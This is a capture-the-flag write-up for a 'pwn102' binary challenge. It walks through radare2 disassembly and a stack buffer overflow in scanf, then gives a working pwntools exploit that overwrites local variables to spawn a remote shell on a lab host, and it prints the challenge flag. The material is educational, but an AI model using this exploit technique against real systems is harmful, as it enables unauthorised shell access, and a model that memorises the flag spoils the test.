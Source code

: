 # pwn102

- [Binary Analysis](#binary-analysis)
- [Local Exploitation](#local-exploitation)
- [Remote Exploitation](#remote-exploitation)

```text

The challenge is running on port 9002

```

## Binary Analysis 

```bash
$ ls
pwn102

$ file pwn102 
pwn102: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2612b87a7803e0a8af101dc39d860554c652d165, not stripped

$ checksec --file=pwn102
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No

```

The *radare2* tool is used to further analyze the track.

```text
[0x00000780]> afl
0x00000710    1      6 sym.imp.puts
0x00000720    1      6 sym.imp.system
0x00000730    1      6 sym.imp.printf
0x00000740    1      6 sym.imp.setvbuf
0x00000750    1      6 sym.imp.__isoc99_scanf
0x00000760    1      6 sym.imp.exit
0x00000770    1      6 sym.imp.__cxa_finalize
0x00000780    1     42 entry0
0x000007b0    4     40 sym.deregister_tm_clones
0x000007f0    4     57 sym.register_tm_clones
0x00000840    5     51 entry.fini0
0x00000880    1     10 entry.init0
0x00000a20    1      2 sym.__libc_csu_fini
0x00000a24    1      9 sym._fini
0x000008eb    1     19 sym.banner
0x000009b0    4    101 sym.__libc_csu_init
0x000008fe    5    172 main
0x0000088a    1     97 sym.setup
0x000006e0    3     23 sym._init

```

Among the symbols, the *main* function is identified.

We proceed with the inspection of the disassembled code of the *main* function.

```bash
[0x00000780]> s main 
[0x000008fe]> pdf
            ; ICOD XREF from entry0 @ 0x79d(r)
┌ 172: int main (int argc, char **argv, char **envp);
│ afv: vars(3:sp[0xc..0x78])
│           0x000008fe      55             push rbp
│           0x000008ff      4889e5         mov rbp, rsp
│           0x00000902      4883ec70       sub rsp, 0x70
│           0x00000906      b800000000     mov eax, 0
│           0x0000090b      e87affffff     call sym.setup
│           0x00000910      b800000000     mov eax, 0
│           0x00000915      e8d1ffffff     call sym.banner
│           0x0000091a      c745fc0df0..   mov dword [var_4h], 0xbadf00d
│           0x00000921      c745f8adde..   mov dword [var_8h], 0xfee1dead
│           0x00000928      8b55f8         mov edx, dword [var_8h]
│           0x0000092b      8b45fc         mov eax, dword [var_4h]
│           0x0000092e      89c6           mov esi, eax
│           0x00000930      488d3d1202..   lea rdi, "I need %x to %x\nAm I right? "; const char *format
│           0x00000937      b800000000     mov eax, 0
│           0x0000093c      e8effdffff     call sym.imp.printf         ; int printf(const char *format)
│           0x00000941      488d4590       lea rax, [var_70h]
│           0x00000945      4889c6         mov rsi, rax
│           0x00000948      488d3d1702..   lea rdi, [0x00000b66]       ; "%s" ; const char *format
│           0x0000094f      b800000000     mov eax, 0
│           0x00000954      e8f7fdffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│           0x00000959      817dfc33ff..   cmp dword [var_4h], 0xc0ff33
│       ┌─< 0x00000960      7530           jne 0x992
│       │   0x00000962      817df8d3c0..   cmp dword [var_8h], 0xc0d3
│      ┌──< 0x00000969      7527           jne 0x992
│      ││   0x0000096b      8b55f8         mov edx, dword [var_8h]
│      ││   0x0000096e      8b45fc         mov eax, dword [var_4h]
│      ││   0x00000971      89c6           mov esi, eax
│      ││   0x00000973      488d3def01..   lea rdi, "Yes, I need %x to %x\n" ; const char *format
│      ││   0x0000097a      b800000000     mov eax, 0
│      ││   0x0000097f      e8acfdffff     call sym.imp.printf         ; int printf(const char *format)
│      ││   0x00000984      488d3df401..   lea rdi, "/bin/sh"          ; const char *string
│      ││   0x0000098b      e890fdffff     call sym.imp.system         ; int system(const char *string)
│     ┌───< 0x00000990      eb16           jmp 0x9a8
│     │││   ; CODE XREFS from main @ 0x960(x), 0x969(x)
│     │└└─> 0x00000992      488d3def01..   lea rdi, "I'm feeling dead, coz you said I need bad food :(" ; const char *s
│     │     0x00000999      e872fdffff     call sym.imp.puts           ; int puts(const char *s)
│     │     0x0000099e      bf39050000     mov edi, 0x539              ; int status
│     │     0x000009a3      e8b8fdffff     call sym.imp.exit           ; void exit(int status)
│     │     ; CODE XREF from main @ 0x990(x)
│     └───> 0x000009a8      c9             leave
└           0x000009a9      c3             ret

[0x000008fe]> afv
var uint32_t var_4h @ rbp-0x4
var uint32_t var_8h @ rbp-0x8
var int64_t var_70h @ rbp-0x70
```

The idea is to exploit the **buffer overflow vulnerability** on `scanf("%s", &var_70h)` to overwrite the local variables on the stack and pass the check to run a `system("/bin/sh")`.

Payload:

- **padding** size=0x70-0x8=104 bytes to fill the buffer.
- **value2**=0xc0d3 `var_8h @ rbp-0x8`.
- **value1**=0xc0ff33 `var_4h @ rbp-0x4`.

## Local Exploitation

The value to write on the stack LSB byte format:
- **value1**: `\xd3\xc0\x00\x00`
- **value2**: `\x33\xff\xc0\x00`

Let's create the payload.

```bash
$ python2 -c 'print b"A"*104+b"\xd3\xc0\x00\x00"+b"\x33\xff\xc0\x00"' > payload

$ xxd payload 
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000050: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000060: 4141 4141 4141 4141 d3c0 0000 33ff c000  AAAAAAAA....3...
00000070: 0a 
```

The exploit is run locally.

```bash
$ ./pwn102 
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 102          

I need badf00d to fee1dead
Am I right? AAA
I' m feeling dead, coz you said I need bad food :(

$ # Exploit the BOF

$ ./pwn102 < payload 
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 102          

I need badf00d to fee1dead
Am I right? Yes, I need c0ff33 to c0d3

```

It works locally but does not return the shell.

## Remote Exploitation

Build and run the `exploit` script and use the *pwntools* library.

`exploit`

```python
#!/usr/bin/env python3
from pwn import remote

HOST, PORT='10.10.34.41', 9002

### Crafting Payload
payload = b'A'*104 + b'\xd3\xc0\x00\x00' + b'\x33\xff\xc0\x00'

### Remote Exploit
io=remote(HOST, PORT)
io.sendline(payload)
io.interactive()

```

The exploit is executed remotely by running the *script*.

```bash
$ ./exploit 
[+] Opening connection to 10.10.34.41 on port 9002: Done
[*] Switching to interactive mode
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 102          

I need badf00d to fee1dead
Am I right? Yes, I need c0ff33 to c0d3
$ ls
flag.txt
pwn102
pwn102.c
$ cat flag.txt
THM{y3s_1_n33D_C0ff33_to_C0d3_<3}
$ 
[*] Closed connection to 10.10.34.41 port 9002
```

Flag captured.

---

[https://github.com/apaonessaa](https://github.com/apaonessaa)
